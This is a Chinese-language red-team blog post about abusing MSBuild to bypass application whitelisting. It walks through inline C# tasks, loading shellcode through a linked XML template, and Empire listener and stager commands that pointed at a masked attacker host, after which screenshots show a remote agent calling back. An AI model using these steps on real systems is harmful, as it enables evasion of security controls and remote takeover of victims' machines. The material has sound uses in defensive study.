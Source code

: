 ```yaml
---
layout:     post
title:    白名单-MSBUILD的利用
subtitle:   MSBUILD的利用
date:       2020-01-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-MSBUILD的利用

## 简介
MSBuild能在没有安装vs的环境中编译.net的工程文件，能编译一些特定格式的xml文件。  
具体的可以看官方的文档：  
[https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN](https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN)  

## 测试
首先来几个简单的案例。  

### 编译生成可执行文件  
详细的内容还是看上看的官方文档。  
测试代码：  
```
using System;

namespace ForTest
{
    class Test
    {
        static void Main()
        {
            Console.WriteLine("test!");
        }
    }
}
```  
保存为test.cs。  
```
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <Target Name="Compile">
        <CSC Sources="test.cs" OutputAssembly="test.exe" />
    </Target>
</Project>
```
保存为test.csproj。  
这里的文件是什么后缀无所谓，只要符合xml格式就可以进行编译。  
因为msbuild没有加入环境变量，要给上全路径或者直接到对应目录下进行编译。  
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\msbuild.exe test.csproj
```  
编译后会在对应目录下生成一个exe文件。  
运行以后会输出test。  
![200103_1](/img/200103_test.png)  

### 编译执行C#代码  
将需要执行的代码嵌入在xml中，后面也是基于这个去执行payload。  
来个简单的例子：  
```
<Project ToolsVersion="12.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">  
  <!-- This simple inline task does nothing. -->  
  <UsingTask  
    TaskName="DoNothing"  
    TaskFactory="CodeTaskFactory"  
    AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v12.0.dll" >  
    <ParameterGroup />  
    <Task>  
      <Reference Include="" />  
      <Using Namespace="" />  
      <Code Type="Fragment" Language="cs">  
      </Code>  
    </Task>  
  </UsingTask>  
</Project> 
```
这是官方的例子，我们在
```
<Code></Code>
```
中添加需要执行的代码。   
```
 <![CDATA[
         Console.WriteLine("test!");		
     ]]>
```
同样的这个文件后缀也无所谓，只要满足对应的xml语法就可以了。  
![200103_2](/img/200103_test2.png)  

## 加载shellcode  
通过向xml中添加内嵌代码，用来加载shellcode。  
这里直接给出三好学生老师傅的代码。[https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml)  
将其中的shellcode替换掉。  
![200103_3](/img/200103_xml.png)  
保存为何种格式无所谓，直接通过msbuild编译。  
![200103_4](/img/200103_msbuildcsproj.png)  
也可以编译xml。  
![200103_5](/img/200103_msbulidxml.png)  
可以看到已经能上线了。  
![200103_6](/img/200103_beacon.png)  

## Empire
通过empire可以直接生成对应的xml文件，直接可以进行编译返回agent的操作。  
先listener。  
```
uselistener http
set Name test 
set Host http://xxx.xxx.xxx.xxx:xxxx
set Port xxxx
execute
```  
![200103_7](/img/200103_listener.png)  
然后生成对应的xml文件。  
```
usestager windows/launcher_xml
set Listener test
execute
```
![200103_8](/img/200103_empirexml.png)  
在靶机上执行：  
![200103_9](/img/200103_buildlaunch.png)  
可以看到返回一个angent。  
![201003_10](/img/200103_agent.png)  
后面可以继续用interact 命令去操作这个agent，这里不继续了。    

## 总结
msbuild的用法还有很多水平有限，有兴趣的可以去看看一些老师傅的文章。  

## 参考
[https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)  
[https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/](https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/)  
